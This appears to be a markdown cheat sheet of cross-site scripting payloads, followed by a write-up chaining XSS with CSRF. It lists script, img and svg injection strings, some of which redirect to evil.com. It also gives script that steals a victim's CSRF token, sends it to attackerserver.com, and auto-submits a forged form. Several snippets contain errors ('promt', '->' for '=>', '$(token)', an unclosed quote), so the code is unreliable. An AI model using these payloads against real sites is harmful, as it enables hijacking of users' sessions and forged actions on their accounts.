 
# Common Payloads

Note -  url encode special charcters
```
<script>alert(1)</script>
<script>prompt(1)</script>
<script>confirm(1)</script>

<script>alert`1`</script>
<script>prompt`1`</script>
<script>confirm`1`</script>

<img src=1 onerror=alert(1)>
<img src=1 onerror=prompt(1)>
<img src=1 onerror= confirm(1)>
<img src=1 onmouseover=alert(1)>
<img src=1 onmouseover=confirm(1)>
<img src=1 onmouseover=prompt(1)>
<img src=1 onfocus=alert(1)>
<img src=1 onfocus=confirm(1)>
<img src=1 onfocus=prompt(1)>

"><svg/onload=promt(1)>
"><svg/onmouseover=promt(1)>
"><svg/onfocus=promt(1)>
"><svg/onload=confirm(1)>
"><svg/onmouseover=confirm(1)>
"><svg/onfocus=confirm(1)>
"><svg/onload=window.location("https://evil.com")>
"><svg/onmouseover=window.location("https://evil.com")>
"><svg/onfocus=window.location("https://evil.com")>


";window.location="https://evil.com";//996
";onfocus=alert(1)//123
-;'alert(1)-';

```

*************************************************************************

# XSS chained for CSRF 

The app was fetching updated CSRF token everytime through a URL, we utilised that url to fetch latest csrf token and using  XSS sent it to attacker server in query parameter of URL which is hosting CSRF poc and the poc automatically fetch token from query parameter and executed poc successfully.

note - convert space and special characters into url encoding
     - edit host file of server to attackerserver.com and start http server on port 1234
```
<script>
fetch('https://vulnerable.com/somepage.do?Token)
    .then(response -> response.text())
        .then(data -> getcsrf(data));

function getcsrf(data){
    var token = data;
    window.location.replace('http://attackerserver.com:1234/csrfpoc.html?token=$(token)')
}
</script>
```
CSRF POC
```
<html>
<body>
<form>
...
<input type="hidden" name="formCsrfToken" id=="token" value="" />
...
</form>
</body>

<script>
const queryString = window.location.search;
const urlParams = new URLSearchParams(queryString);
const token = urlParams.get('token');
var elem = document.getElementById("token");
elem.value = token;
history.pushState('','','/');
document.forms[0].submit();
</script>

</html>
```